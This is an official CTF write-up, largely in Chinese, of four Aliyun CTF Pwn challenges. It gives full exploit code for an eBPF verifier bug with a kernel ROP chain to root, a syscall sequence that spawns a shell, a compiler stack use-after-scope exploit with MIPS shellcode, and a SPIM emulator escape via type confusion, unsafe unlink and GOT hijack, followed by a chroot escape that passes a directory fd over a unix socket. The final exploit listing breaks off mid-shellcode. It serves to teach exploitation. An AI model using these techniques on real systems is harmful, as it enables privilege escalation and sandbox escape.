# 第三届阿里云CTF官方Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/17029  
> **文章ID**: 17029

---

# Pwn

## beebee

In this challenge, a vulnerable function has been added to the kernel:

```
BPF_CALL_3(bpf_aliyunctf_xor, const char *, buf, size_t, buf_len, s64 *, res) {
    s64 _res = 2025;

    if (buf_len != sizeof(s64))
        return -EINVAL;

    _res ^= *(s64 *)buf;
    *res = _res;

    return 0;
}

const struct bpf_func_proto bpf_aliyunctf_xor_proto = {
    .func		= bpf_aliyunctf_xor,
    .gpl_only	= false,
    .ret_type	= RET_INTEGER,
    .arg1_type	= ARG_PTR_TO_MEM | MEM_RDONLY,
    .arg2_type	= ARG_CONST_SIZE,
    .arg3_type	= ARG_PTR_TO_FIXED_SIZE_MEM | MEM_UNINIT | MEM_ALIGNED | MEM_RDONLY,
    .arg3_size	= sizeof(s64),
};
```

The `arg3_type` of `bpf_aliyunctf_xor_proto` has been wrongly set with `MEM_RDONLY`, so we can abuse it and gain ability to modify read-only maps.

And in `check_mem_access()`:

```
            /* if map is read-only, track its contents as scalars */
            if (tnum_is_const(reg->var_off) &&
                bpf_map_is_rdonly(map) &&
                map->ops->map_direct_value_addr) {
                int map_off = off + reg->var_off.value;
                u64 val = 0;

                err = bpf_map_direct_read(map, map_off, size,
                              &val, is_ldsx);
                if (err)
                    return err;

                regs[value_regno].type = SCALAR_VALUE;
                __mark_reg_known(&regs[value_regno], val);
            } else {
                mark_reg_unknown(env, regs, value_regno);
            }
```

Now we found a way to create a register, whose actual value differs from the verifier tracks. With KASLR disabled, we adapt `bpf_skb_load_bytes()` to corrupt the stack and get the flag.

**Full Exploit**

```
#define _GNU_SOURCE
#include "bpf_insn.h" // https://github.com/torvalds/linux/blob/master/samples/bpf/bpf_insn.h
#include <err.h>
#include <fcntl.h>
#include <linux/bpf.h>
#include <stddef.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sendfile.h>
#include <sys/syscall.h>
#include <unistd.h>

#define BPF_FUNC_aliyunctf_xor 212

#define SYSCHK(x)                                                              \
  ({                                                                           \
    typeof(x) __res = (x);                                                     \
    if (__res == (typeof(x))-1)                                                \
      err(1, "SYSCHK(" #x ")");                                                \
    __res;                                                                     \
  })

#define LOG_BUF_SZ (0x1000)
char log_buf[LOG_BUF_SZ];

int main() {
  int array_map_fd;

  setbuf(stdout, 0);
  
  //  Cache task
  if (!fork()) {
    if (!fork())
      exit(0);
    exit(0);
  }
  usleep(1000);

  // Create array map with BPF_F_RDONLY_PROG
  {
    int key;
    size_t value;
    union bpf_attr attr = {};
    attr.map_type = BPF_MAP_TYPE_ARRAY;
    attr.key_size = 4;
    attr.value_size = 8;
    attr.max_entries = 1;
    attr.map_flags = BPF_F_RDONLY_PROG;

    array_map_fd =
        SYSCHK(syscall(SYS_bpf, BPF_MAP_CREATE, &attr, sizeof(attr)));
  }

  // Place an elem
  {
    int key = 0;
    char value[8] = {};
    *(long long *)&value[0] = 1;
    union bpf_attr attr = {};
    attr.map_fd = array_map_fd;
    attr.key = (size_t)&key;
    attr.value = (size_t)&value;

    int ret =
        SYSCHK(syscall(SYS_bpf, BPF_MAP_UPDATE_ELEM, &attr, sizeof(attr)));
  }

  // Freeze map to make map "read-only"
  {
    union bpf_attr attr = {};
    attr.map_fd = array_map_fd;

    int ret = SYSCHK(syscall(SYS_bpf, BPF_MAP_FREEZE, &attr, sizeof(attr)));
  }

  // Setup evil bpf prog
  struct bpf_insn prog[] = {
      // ? R9 = CTX
      BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),
      // ? R3 = ELEM
      BPF_ST_MEM(BPF_DW, BPF_REG_10, -16, 0),
      BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
      BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -16),
      BPF_LD_MAP_FD(BPF_REG_1, array_map_fd),
      BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
      BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
      BPF_EXIT_INSN(), // ? Remove or_null tag
      BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),

      // ? R6 = P1 (scalar)
      BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),
      BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_7, 0),

      // ? R1(buf) = ptr to <value>, which will be set at read-only map
      BPF_ST_MEM(BPF_W, BPF_REG_10, -0x18, 2025 ^ (0x80)), // ! 256 bytes
      BPF_ST_MEM(BPF_W, BPF_REG_10, -0x14, 0),
      BPF_MOV64_REG(BPF_REG_1, BPF_REG_10),
      BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, -0x18),

      // ? R2(buf_size) = 8
      BPF_MOV64_IMM(BPF_REG_2, 8),
      BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_aliyunctf_xor),

      // ? R1 = CTX
      BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),

      // ? R2 = anything
      BPF_MOV64_IMM(BPF_REG_2, 0),

      // ? R3 = stack
      BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
      BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -8),

      // ? R4 = size (previously as P1 (scalar), now changed to evil value)
      BPF_LDX_MEM(BPF_DW, BPF_REG_4, BPF_REG_7, 0),
      BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes),

      BPF_EXIT_INSN()};

  // Try load prog
  union bpf_attr prog_attr = {.prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
                              .insn_cnt =
                                  sizeof(prog) / sizeof(struct bpf_insn),
                              .insns = (uint64_t)prog,
                              .log_buf = (uint64_t)log_buf,
                              .log_size = LOG_BUF_SZ,
                              .log_level = 1 | 2,
                              .license = (uint64_t)"GPL"};

  int prog_fd =
      SYSCHK(syscall(SYS_bpf, BPF_PROG_LOAD, &prog_attr, sizeof(prog_attr)));

  // Prepare data for ROP chain
  char data_buf[4096] = {};
  struct __sk_buff md = {};

  size_t *rop_chain = (size_t *)&data_buf[30];
  *rop_chain++ = 0xffffffff8130d3de; //  pop rdi; ret;
  *rop_chain++ = 0xffffffff82a52fa0; //  &init_cred
  *rop_chain++ = 0xffffffff810c3c50; //  commit_creds
  *rop_chain++ = 0xffffffff8108e620; //  vfork

  // Run prog
  union bpf_attr test_run_attr = {
      .test.data_size_in = 1024,
      .test.data_in = (uint64_t)&data_buf,
      .test.ctx_size_in = sizeof(md),
      .test.ctx_in = (uint64_t)&md,
  };

  test_run_attr.prog_type = BPF_PROG_TEST_RUN;
  test_run_attr.test.prog_fd = prog_fd;
  int ret = SYSCHK(syscall(SYS_bpf, BPF_PROG_TEST_RUN, &test_run_attr,
                           sizeof(test_run_attr)));

  close(prog_fd);

  // Get flag
  if (!getuid())
    system("cat /flag && whoami && id");
  else
    puts("Oops...");

  // Avoid crash
  while(1) {}
  return 0;
}
```

## runes

### Overview

In this challenge, we gain the ability to execute syscalls and retrieve their results.

```
     case 3:
...
        if ( !fgets(buf, 128, stdin) )
        {
...
        }
        if ( (unsigned int)__isoc23_sscanf(buf, "%lu %lu %lu %lu", &sysno, &v29, &v30, &v31) != 4 )
        {
...
        }
        v17 = 100 * qword_6098;
        if ( 100 * qword_6098 < v29 || v17 < v30 || v17 < v31 )
        {
...
        }
        v22 = syscall(sysno, v29, v30, v31, 0LL, 0LL);
        __printf_chk(2LL, "\x1B[33mAs the runes activate, a mysterious force answers: %zu
\x1B[0m", v22);
```

However, to overcome the "dark dragon" and survive, we must disrupt its magic.

```
        addra = (void (__fastcall *)(int *))mmap(0LL, 0x1000uLL, 7, 1, fd, 0LL);
        if ( addra == (void (__fastcall *)(int *))-1LL )
        {
          __printf_chk(2LL, a36mdarkDragonR);
          LODWORD(v14) = dword_6080;
LABEL_56:
          LODWORD(v13) = 1;	//	monster hp
          goto LABEL_41;
        }
```

Once we do, victory comes easily, and we gain the ability to execute any syscalls without argument limitations.

### Solution

One possible solution is as follows:

* Call `prctl(PR_SET_MDWE, PR_MDWE_REFUSE_EXEC_GAIN, 0, 0, 0)` to disrupt the `mmap` call. FYI:[PR\_SET\_MDWE - Linux manual page](https://man7.org/linux/man-pages/man2/pr_set_mdwe.2const.html)
* Call `shmget(IPC_PRIVATE, SIZE, IPC_CREAT|0600)` to get a shmid
* Call `shmat(shmid, NULL, 0)` to create a writeable mapping
* Call `read(0, shmem_addr, 9)` to read `/bin/bash` into memory
* Call `execve(shmem_addr, 0, 0)` to getshell

It's straightforward, and you don't need to write a script to solve it—`nc` is all you need.

### Example

One possible example input(`shmem_addr` is the leaked value when excute `shmat` syscall):

```
// prctl(PR_SET_MDWE, PR_MDWE_REFUSE_EXEC_GAIN, 0, 0, 0)
157 65 1 0
// shmget(IPC_PRIVATE, SIZE, IPC_CREAT|0600);
29 0 64 896
// shmat(shmid, NULL, 0) ;
30 0 0 0
// read(0, shmem_addr, 9) /bin/bash
0 0 139924372406272 9
// execve(shmem_addr, 0, 0)
59 139924372406272 0 0
```

## broken\_compiler

题目给出了一个C语言子集的编译器，将用户的程序编译为MIPS汇编，使用SPIM运行。要读取flag，考虑先利用编译器的漏洞，在MIPS环境下实现任意内存地址写入，再劫持返回地址到shellcode区域，使用shellcode进行open-read-write，输出flag。

### shellcode的编写

SPIM提供了少量syscall，支持基本的标准输入输出功能，以及文件的打开、读取、写入。SPIM的`CPU/syscall.cpp`中包括所有syscall的实现。解题需要用到`open`、`read`、`write`。SPIM syscall的调用号在`$v0`寄存器，返回值也在`$v0`寄存器，参数依次存储在`$a0`、`$a1`、`$a2`。`open`、`read`、`write`的调用号为13、14、15。由此编写shellcode：

```
main:
# store "/flag" to $sp
li $v1, 1634493999
li $5, 103
sw $v1,0($sp)
sw $5,4($sp)
move $a0,$sp
li $a1,0
li $v0, 13
# open("/flag",0)
syscall

move $a0,$2
move $a1,$sp
li $a2,64
li $v0, 14
# read(fd,$sp,64)
syscall

move $a2,$2
li $a0,1
li $v0,15
# write(1,$sp,read.ret)
syscall

# exit()
li $v0,10
syscall
```

使用`spim -dump exp.mips`编译MIPS汇编，生成`text.asm`文件，即为shellcode的机器码。

### 实现任意地址写入和返回地址劫持

题目存在两个漏洞，一处位于对`struct`类型返回值的处理，一处位于`struct`类型的`struct`字段处理，使用任意一个漏洞均可实现任意地址写入，这里重点描述第一种。

题目漏洞的根源在于编译器使用的调用约定没有正确处理`struct`类型的返回值。调用约定使用单个寄存器`$2`传递返回值。当返回值类型为`struct`时，直接将对应变量的地址存储到寄存器中。若返回值变量为局部变量，则存在stack use-after-scope的问题。

现在考虑如何通过stack use-after-scope实现任意地址写入和返回地址劫持。编译器的`struct`实现是：先在栈上分配一个指向`struct`的指针变量，再在栈上分配空间，并将`$sp`赋值给指针变量。如果使用stack use-after-scope改写指针变量，就可以构造任意地址写入原语。

随后只需要实现返回地址劫持，就可以任意执行MIPS代码。程序使用的调用约定是，参数压栈，被调用者保存frame pointer，调用者保护所有其他寄存器。调用函数时，返回地址不直接压栈，而是存放到`$ra`中。当函数为非叶子函数时（即调用了其他函数），会在栈上保存`$ra`，并在返回时恢复`$ra`。因此，只需要在非叶子函数中改写栈上保存的`$ra`即可实现返回地址劫持。

还需要注意一点，编译器会将最近使用的变量存储到寄存器中，当通过stack use-after-scope劫持栈上的指针变量后，还需要强制刷新寄存器内容，才能向新的地址写入内容。编译器使用的是朴素寄存器分配算法，当进行函数调用时，会回写所有带有dirty标记的寄存器，并无效化所有寄存器的内容，因此只需要在合适的地方调用一个空函数`barrier()`，就可以强制编译器重新从栈上加载指针。具体`barrier()`插入时机见注释。

使用任意地址写入在text区布局shellcode并跳转到shellcode即可得到flag。

```
栈布局：
bad._0
bad._4
bad._8         ptr(victim)
bad._12        saved $ra      
ptr(local)     caller $fp
caller $fp     arg0(mystk)
```

解题程序（可使用附件中sendexp.py发送到服务器）：

```
struct bad{
    int _0;
    int _4;
    int _8;
    int _12;
};
struct bad stack_uaf(){
    struct bad local;
    return local;
}
int overwrite(struct bad mystk){
    struct bad victim;
    // 此时victim指针存储在寄存器中，barrier强制将指针写回栈，并无效寄存器内容
    barrier();
    mystk._12=0x00400f00;
    // 劫持栈上$ra
    mystk._8=0x00400f00;
    // 修改栈上victim指针
    
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f00
    victim._0=0x3c01616c;
    victim._4=0x3423662f;
    victim._8=0x34050067;
    victim._12=0xafa30000;

    // 修改栈上victim指针
    mystk._8=0x00400f10;
    // 此时victim指针存储在寄存器中，但没有被修改，所以直接无效内容，不写回栈
    barrier();
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f10
    victim._0=0xafa50004;
    victim._4=0x001d2021;
    victim._8=0x34050000;
    victim._12=0x3402000d;

    mystk._8=0x00400f20;
    barrier();
    victim._0=0x0000000c;
    victim._4=0x00022021;
    victim._8=0x001d2821;
    victim._12=0x34060040;
    
    mystk._8=0x00400f30;
    barrier();
    victim._0=0x3402000e;
    victim._4=0x0000000c;
    victim._8=0x00023021;
    victim._12=0x34040001;

    mystk._8=0x00400f40;
    barrier();
    victim._0=0x3402000f;
    victim._4=0x0000000c;
    victim._8=0x3402000a;
    victim._12=0x0000000c;
    return 0;
}
int main(){
    overwrite(stack_uaf());
    return 0;
}
```

第二处漏洞是没有禁止incomplete struct类型的`struct`字段，声明incomplete struct类型字段时，大小分配错误，导致`struct`访问时的越界读写。篇幅原因这里不给出exp，以下为PoC：

```
struct Foo{
    int x; // off = 0, size = 4
    struct Foo overflow; // off = 4, size=4
}; // size=8

Foo victim;
victim.overflow.overflow.x = 0; // *(&victim + 8) = 0;
```

笔者注：编译器为struct分配栈内存的实现也有问题，循环内定义的struct会在循环体每次执行时重新分配内存，且没有尝试访问guard page，存在stack clash漏洞。可以通过stack clash攻击覆盖内存中的代码。但实施stack clash攻击需要执行的指令数较多，可能会触发沙箱3s的cpu时间限制，不是预期解法。

## broken\_simulator

本题目是一个real-world综合题。使用SPIM运行用户给出的MIPS汇编，要求用户首先利用SPIM的漏洞，逃逸SPIM模拟器，实现任意shellcode执行。再进行沙箱逃逸，读取根目录的/flag

### 0x01 泄漏SPIM基址

SPIM提供了少量syscall，支持基本的标准输入输出功能，以及文件的打开、读取、写入。SPIM的`CPU/syscall.cpp`中包括所有syscall的实现。其中，`open`、`read`、`write`的调用号为13、14、15。SPIM syscall的调用号在`$v0`寄存器，返回值也在`$v0`寄存器，参数依次存储在`$a0`、`$a1`、`$a2`。  
沙箱环境挂载了`/proc`，考虑通过读取`/proc/self/maps`泄漏程序基址。SPIM是64位程序，模拟的是32位MIPS cpu，因此需要使用两个寄存器储存泄漏的基址。

```
# 执行结果 $s0: 基址高32位的低16位  $s1: 基址低32位 
main:
    li $t1, 0x6f72702f
    sw $t1, -16($sp)
    li $t1, 0x65732f63
    sw $t1, -12($sp)
    li $t1, 0x6d2f666c
    sw $t1, -8($sp)
    li $t1, 0x737061
    sw $t1, -4($sp) # 栈上构造/proc/self/maps
    addiu $a0, $sp, -16
    li $a1,0
    li $v0,13
    syscall # open(/proc/self/maps,0)
    move $a0,$v0
    addiu $a1,$sp,-12
    li $a2,12
    li $v0,14
    syscall # read(maps,sp-12,12)
    # 构造查找表，读取16进制基址
    addiu $a2,$sp,-512
    
    li $a3,0x03020100
    sw $a3, 48($a2)
    
    li $a3,0x07060504
    sw $a3, 52($a2)

    li $a3,0x0908
    sh $a3,56($a2)
    
    li $a3,0x0c0b0a0a
    sw $a3,96($a2)
    
    li $a3,0x0f0f0e0d
    sw $a3,100($a2)
    
    # $s0: base_hi16
    # $s1: base_lo32
    li $s0,0
    # li $s1,0

    # a1: addr_buf
    # a2: lut

    addiu $a0,$a1,4
loop_0:
    lbu $a3,0($a1)
    addu $a3,$a2,$a3
    lbu $a3,0($a3)
    sll $s0,$s0,4
    or $s0,$s0,$a3
    addiu $a1,$a1,1
    bne $a0,$a1,loop_0

loop_1:
    lbu $a3,0($a1)
    addu $a3,$a2,$a3
    lbu $a3,0($a3)
    sll $s1,$s1,4
    or $s1,$s1,$a3
    addiu $a1,$a1,1
    bne $sp,$a1,loop_1
```

笔者注：这里的shellcode使用32位加法模拟64位加法，没有考虑32位边界的进位，因此在利用时不会100%成功，但实际成功率很高。

### 0x02 利用SPIM类型混淆，实现任意地址读

SPIM的read syscall实现存在类型混淆漏洞。`mem_reference`函数将MIPS cpu的地址转换为模拟器地址空间的地址。read syscall可以向text和data段**写入**文件中的内容。而`text_seg`的定义是`instruction **text_seg;`。因此通过read syscall可以构造虚假的`instruction`指针。

```
    case READ_SYSCALL: {
      /* Test if address is valid */
        (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
        R[REG_RES] = read(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
        data_modified = true;
        break;
    }

    void *mem_reference(mem_addr addr) {
        if ((addr >= TEXT_BOT) && (addr < text_top))
            return addr - TEXT_BOT + (char *)text_seg;
        else if ((addr >= DATA_BOT) && (addr < data_top))
            return addr - DATA_BOT + (char *)data_seg;
        else if ((addr >= stack_bot) && (addr < STACK_TOP))
            return addr - stack_bot + (char *)stack_seg;
        else if ((addr >= K_TEXT_BOT) && (addr < k_text_top))
            return addr - K_TEXT_BOT + (char *)k_text_seg;
        else if ((addr >= K_DATA_BOT) && (addr < k_data_top))
            return addr - K_DATA_BOT + (char *)k_data_seg;
        else {
            run_error("Memory address out of bounds
");
            return NULL;
        }
    }
```

`instruction`结构体保存了指令对应的32位编码（MIPS是定长指令集），可以利用其`encoding`字段实现内存读。若需要读取`addr`处的内容，可以在`addr-8`处伪造一个`instruction`，并读取指令内存的内容即可。

```
typedef struct inst_s {
  short opcode;

  union {
    /* R-type or I-type: */
    struct {
      unsigned char rs;
      unsigned char rt;

      union {
        short imm;

        struct {
          unsigned char rd;
          unsigned char shamt;
        } r;
      } r_i;
    } r_i;

    /* J-type: */
    mem_addr target;
  } r_t;

  int32 encoding;
  imm_expr *expr;
  char *source_line;
} instruction;
```

内存读取逻辑如下：

```
reg_word read_mem_word(mem_addr addr) {
  if ((addr >= DATA_BOT) && (addr < data_top) && !(addr & 0x3))
    return data_seg[(addr - DATA_BOT) >> 2];
  else if ((addr >= stack_bot) && (addr < STACK_TOP) && !(addr & 0x3))
    return stack_seg[(addr - stack_bot) >> 2];
  else if ((addr >= K_DATA_BOT) && (addr < k_data_top) && !(addr & 0x3))
    return k_data_seg[(addr - K_DATA_BOT) >> 2];
  else
    return bad_mem_read(addr, 0x3); // 读取指令调用bad_mem_read
}

static mem_word bad_mem_read(mem_addr addr, int mask) {
    // ...
    instruction *inst = text_seg[(addr - TEXT_BOT) >> 2];
    if (inst == NULL)
        return 0;
    else
        return (ENCODING(inst));
    // ...
}

```

在使用read syscall向text\_seg写入伪造指针之前，需要找到一个可以写入内容的文件作为辅助。这里选取/proc/self/fd/0，这是MIPS的输入文件（一个memfd）。编写`fake_inst`函数，实现指令的伪造：

```
# precond: sp=path, sp-8=data
# postcond: a1=fake_inst_vaddr
fake_inst:
    move $a0, $sp
    li $a1, 577 # O_WRONLY|O_CREAT|O_TRUNC
    li $a2, 448
    li $v0,13
    syscall # open(path,O_WRONLY|O_CREAT|O_TRUNC,0700)

    move $a0,$v0
    addiu $a1,$sp,-8
    li $a2,8
    li $v0,15
    syscall # write(fd,sp-8,8)
    
    li $v0,16
    syscall # close(fd)

    move $a0, $sp
    li $a1, 0
    li $v0,13
    syscall # open(path,0)

    move $a0,$v0
    li $a1,0x400000
    # $a2=8
    li $v0,14
    syscall # read(fd,vaddr,8)

    li $v0,16 # close(fd)
    syscall

    jr $ra
```

笔者注：此处也可以从fd 1中读取内容，fd 1是与用户交互的socket。预期解采用不需要用户交互的方案。

### 0x03 利用SPIM类型混淆，实现任意地址free，从而实现任意地址写

向指令内存写入内容时，如果原有内存已经有`instruction`了，会free掉原有指令，再创建新的指令。使用read syscall伪造一个指令指针，再向对应的指令内存写入内容，就可以实现任意地址free。

```
static void bad_mem_write(mem_addr addr, mem_word value, int mask) {
    if (addr >= TEXT_BOT && addr < text_top) {
        if (text_seg[(addr - TEXT_BOT) >> 2] != NULL) {
            free_inst(text_seg[(addr - TEXT_BOT) >> 2]);
        }
        text_seg[(addr - TEXT_BOT) >> 2] = inst_decode(tmp);
        text_modified = true;
    }
}
```

此时需要利用任意地址读和任意地址free实现任意地址写。`k_data_seg`的虚拟地址为`0x90000000`，指向的堆块内容可控，MIPS的`.bss`中存储`mem_word *k_data_seg;`。考虑使用unsafe unlink攻击，将`k_data_seg`改为`&k_data_seg - 24`，再修改`k_data_top`和`k_data_seg`，实现任意地址写。  
在`k_data_seg`对应的堆块上构造三个chunk：0x480(free),0x480(used),0x20，在第一个chunk上伪造虚假的双向链表节点，再free第二个chunk，就可以实现unsafe unlink攻击。在任意free之前，要先利用任意地址读，读取`k_data_seg`的内容，得到第二个chunk的堆地址。

```
    # $s0: 基址高32位的低16位  $s1: 基址低32位 
    # $t8: k_data_seg的虚拟地址
    li $t8,0x90000000
# chunk1
    li $a1,0x481
    #sw $0,0($t8)
    #sw $0,4($t8)
    sw $a1,8($t8)
    sw $0,12($t8)
    # ! offset(k_data_seg) - 24 == 186144
    li $a1,186144
    addu $a2,$s1,$a1
    sw $a2,16($t8)
    sw $s0,20($t8)
    
    # $a2 == &k_data_seg - 16
    addiu $a2,$a2,8
    sw $a2,24($t8)
    sw $s0,28($t8)

    sw $0,32($t8)
    sw $0,36($t8)

# chunk2
    li $a1,0x480
    sw $a1,0x480($t8)
    #sw $0,0x484($t8)
    sw $a1,0x488($t8)
    #sw $0,0x48c($t8)

# chunk3
    li $a1,0x21
    sw $a1,0x908($t8)
    #sw $0,0x90c($t8)
    sw $a1,0x928($t8)
    #sw $0,0x92c($t8)

#leak k_data_seg
    # $s2 == $a2 + 8 ==  &k_data_seg - 8

    addiu $s2,$a2,8

    addiu $sp, $sp, -12
    sw $s2, -8($sp)
    sw $s0,  -4($sp)
    li $t1, 1869770799
    sw $t1, 0($sp)
    li $t1, 1702047587
    sw $t1, 4($sp)
    li $t1, 1714382444
    sw $t1, 8($sp)
    li $t1, 3157860
    sw $t1, 12($sp)
# sp = "/proc/self/fd/0"
# *(sp - 8) == &k_data_seg - 8

    jal fake_inst

    lw $s3,0($a1)
    # $s3 = lo32(k_data_seg)

#unlink attack
    # $t0 == addr(k_data_seg) + 0x490
    addiu $t0,$s3,0x490
    sw $t0,-8($sp)

    jal fake_inst

    sw $0,0($a1) # trigger free(fake_chunk)

    # paddr($t8) = &k_data_seg - 24
    
    not $s2,$0
    sw $s2,0($t8) # set a big k_data_top
    sw $s1,24($t8) # hijack k_data_seg to ELF_BASE
```

### 0x04 实现任意shellcode执行

SPIM的got表可写，使用got劫持，将`open@got`劫持为`mprotect`的地址，再用open syscall，将ELF\_BASE开始的一页权限改为rwx。这样就可以布局shellcode。布局完shellcode后使用got劫持，将`open@got`劫持为ELF\_BASE，再调用open syscall就调转到shellcode。

```
# ! got[open] = 0x27058
    li $t0,0x27058
    addu $t1,$t0,$t8
    lw $t2,0($t1)
# ! mprotect-open == 43200
    li $t0,43200
    addu $t2,$t2,$t0
# hijack open@got
    sw $t2,0($t1)

    move $a0,$t8
    li $a1,0xb000
    li $a2,7 # rwx
    li $v0,13
    syscall

# shellcode here

    sw $s1,0($t1)
    sw $s0,4($t1)
# hijack open@got
    li $v0,13
    syscall
```

笔者注：shellcode执行流程复杂的原因是SPIM没有提供lseek syscall。如果提供了lseek，解题过程可以大幅度简化。具体解法请读者思考。

### 0x05 实现沙箱逃逸

沙箱隔离了pid、mount namespace，并在chroot后降权。每次执行都选取了不同的根目录（`box0~box3`），考虑使用unix socket向另一个沙箱发送根目录的fd，另一个沙箱接收fd并读取对应fd的父目录内容，就可以绕过chroot的限制。能绕过chroot限制的根本原因是沙箱没有重新挂载根目录，接收fd的父目录永远不会和当前的chroot相等，所以能一直穿越到真实根目录。  
分别启动两个沙箱，一个发送fd，一个接收fd并读取flag。

```
// send.c
const int SOCK_NAME=0x006a6a00;

__always_inline static void send_fd(int socket, int fd) {
    struct msghdr msg = {0};
    struct iovec iov;
    char buffer[1] = {0};
    char cmsg_buffer[CMSG_SPACE(sizeof(int))];
    
    msg.msg_control = cmsg_buffer;
    msg.msg_controllen = sizeof(cmsg_buffer);
    struct cmsghdr *cmsg = CMSG_FIRSTHDR(&msg);
    cmsg->cmsg_level = SOL_SOCKET;
    cmsg->cmsg_type = SCM_RIGHTS;
    cmsg->cmsg_len = CMSG_LEN(sizeof(int));
    __builtin_memcpy(CMSG_DATA(cmsg), &fd, sizeof(fd));

    iov.iov_base = buffer;
    iov.iov_len = sizeof(buffer);
    msg.msg_iov = &iov;
    msg.msg_iovlen = 1;

    syscall3(SYS_sendmsg,socket, (long)&msg, 0);
}

__attribute__((naked)) void main() {
    long sig = 1<<(SIGALRM-1);
    syscall4(SYS_rt_sigprocmask,0,(long)&sig,0,8);
    int client_socket = raw_socket(AF_UNIX, SOCK_STREAM, 0);
    struct sockaddr_un addr = {0};
    addr.sun_family = AF_UNIX;
    __builtin_memcpy(addr.sun_path,&SOCK_NAME,4);
    syscall3(SYS_connect,client_socket, (long)(struct sockaddr *)&addr, sizeof(addr));
    short path;
    __builtin_memcpy(&path,".",2);
    int cwd_fd = syscall2(SYS_open,(long)&path, O_RDONLY);
    send_fd(client_socket, cwd_fd);
}
```

```
// recv.c
const int SOCK_NAME=0x006a6a00;

__always_inline static int recv_fd(int socket) {
    struct msghdr msg = {0};
    struct iovec iov;
    char buffer[1];
    char cmsg_buffer[CMSG_SPACE(sizeof(int))];
    msg.msg_control = cmsg_buffer;
    msg.msg_controllen = sizeof(cmsg_buffer);
    iov.iov_base = buffer;
    iov.iov_len = sizeof(buffer);
    msg.msg_iov = &iov;
    msg.msg_iovlen = 1;
    syscall3(SYS_recvmsg,socket, (long)&msg, 0);
    //return *(int *)CMSG_DATA(CMSG_FIRSTHDR(&msg));
    return *(int *)((((struct cmsghdr *) (&msg)->msg_control))->__cmsg_data);
}

__attribute__((naked)) void main() {
    long sig = 1<<(SIGALRM-1);
    syscall4(SYS_rt_sigprocmask,0,(long)&sig,0,8);
    int server_socket = raw_socket(AF_UNIX, SOCK_STREAM, 0);
    struct sockaddr_un addr = {0};
    addr.sun_family = AF_UNIX;
    __builtin_memcpy(addr.sun_path,&SOCK_NAME,4);
    syscall3(SYS_bind,server_socket, (long)(struct sockaddr *)&addr, sizeof(addr));
    syscall2(SYS_listen,server_socket, 5);
    int client_socket = syscall3(SYS_accept,server_socket, 0,0);
    int received_fd = recv_fd(client_socket);
    syscall1(SYS_fchdir,received_fd);
    int dir;
    __builtin_memcpy(&dir,"..",3);
    for(int i=0;i<8;++i)
        syscall1(SYS_chdir,(long)&dir);
    char buf[5];
    __builtin_memcpy(buf,"flag",5);
    int ffd=syscall2(SYS_open,(long)buf,0);
    char buf2[64];
    syscall3(SYS_read,ffd,(long)buf2,64);
    syscall3(SYS_write,1,(long)buf2,64);
}
```

### 0x06 解题EXP

```
# send.mips
main:
    li $t1, 0x6f72702f
    sw $t1, -16($sp)
    li $t1, 0x65732f63
    sw $t1, -12($sp)
    li $t1, 0x6d2f666c
    sw $t1, -8($sp)
    li $t1, 0x737061
    sw $t1, -4($sp)
    addiu $a0, $sp, -16
    li $a1,0
    li $v0,13
    syscall 
    move $a0,$v0
    addiu $a1,$sp,-12
    li $a2,12
    li $v0,14
    syscall 
    
    addiu $a2,$sp,-512
    
    li $a3,0x03020100
    sw $a3, 48($a2)
    
    li $a3,0x07060504
    sw $a3, 52($a2)

    li $a3,0x0908
    sh $a3,56($a2)
    
    li $a3,0x0c0b0a0a
    sw $a3,96($a2)
    
    li $a3,0x0f0f0e0d
    sw $a3,100($a2)
    li $s0,0
    addiu $a0,$a1,4
loop_0:
    lbu $a3,0($a1)
    addu $a3,$a2,$a3
    lbu $a3,0($a3)
    sll $s0,$s0,4
    or $s0,$s0,$a3
    addiu $a1,$a1,1
    bne $a0,$a1,loop_0

loop_1:
    lbu $a3,0($a1)
    addu $a3,$a2,$a3
    lbu $a3,0($a3)
    sll $s1,$s1,4
    or $s1,$s1,$a3
    addiu $a1,$a1,1
    bne $sp,$a1,loop_1

    li $t8,0x90000000
    
    li $a1,0x481
       
    sw $a1,8($t8)
    sw $0,12($t8)
    
    li $a1,186144
    addu $a2,$s1,$a1
    sw $a2,16($t8)
    sw $s0,20($t8)
     
    addiu $a2,$a2,8
    sw $a2,24($t8)
    sw $s0,28($t8)

    sw $0,32($t8)
    sw $0,36($t8)

    li $a1,0x480
    sw $a1,0x480($t8)
    
    sw $a1,0x488($t8)
      
    li $a1,0x21
    sw $a1,0x908($t8)
    
    sw $a1,0x928($t8)  

    addiu $s2,$a2,8

    addiu $sp, $sp, -12
    sw $s2, -8($sp)
    sw $s0,  -4($sp)
    li $t1, 1869770799
    sw $t1, 0($sp)
    li $t1, 1702047587
    sw $t1, 4($sp)
    li $t1, 1714382444
    sw $t1, 8($sp)
    li $t1, 3157860
    sw $t1, 12($sp)

    jal fake_inst

    lw $s3,0($a1)
      
    addiu $t0,$s3,0x490
    sw $t0,-8($sp) 
    
    jal fake_inst

    sw $0,0($a1) 
 
    not $s2,$0
    sw $s2,0($t8) 
    sw $s1,24($t8) 

    li $t0,0x27058
    addu $t1,$t0,$t8
    lw $t2,0($t1)
    
    li $t0,43200
    addu $t2,$t2,$t0
    sw $t2,0($t1)

    move $a0,$t8
    li $a1,0xb000
    li $a2,7 
    li $v0,13
    syscall
# shellcode
li $v0,964929
sw $v0,0($t8)
